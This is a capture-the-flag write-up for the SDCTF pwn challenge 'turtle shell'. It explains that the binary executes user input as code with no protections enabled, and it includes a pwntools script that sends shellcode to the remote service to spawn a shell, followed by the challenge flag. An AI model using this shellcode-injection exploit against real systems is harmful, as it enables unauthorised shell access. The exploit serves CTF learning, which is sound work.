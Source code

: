 ```yaml
---
description: simple shellcode
---
```


# turtle shell

## Problem

<details>

<summary>Description</summary>

A turtle without it's shell is a sad sight to see

Connect via: `nc turtle.sdc.tf 1337`

</details>

## Solution

Its a simple and straight forward shellcode injection, it can be implied from the name and the fact that none of the protection is enabled.

<figure><img src="../../../.gitbook/assets/image_2023-05-29_155605458.png" alt="" width="563"><figcaption></figcaption></figure>

The program simply takes our input and runs it as code, we can use pwntools's shellcraft to spawn a shell

<figure><img src="../../../.gitbook/assets/image_2023-05-29_160740918.png" alt="" width="369"><figcaption><p>decompiled main</p></figcaption></figure>

{% code title="Solve.py" lineNumbers="true" fullWidth="false" %}
```python
#!user/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './turtle-shell'
context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

local = False
if(local):
    io = process(exe)
else:
    io = remote('turtle.sdc.tf', 1337)

# =========================================================
#                         ADDRESSES
# =========================================================


# =========================================================
#                         EXPLOITS
# =========================================================

shellcode = asm(shellcraft.sh())

# flattening  payload here
payload = flat([
    shellcode,
])

io.sendline(payload)

io.interactive()
```
{% endcode %}

## Flag

> _**sdctf{w0w\_y0u\_m4d3\_7h3\_7urT13\_c0m3\_0u7\_0f\_1t5\_5h3l1}**_
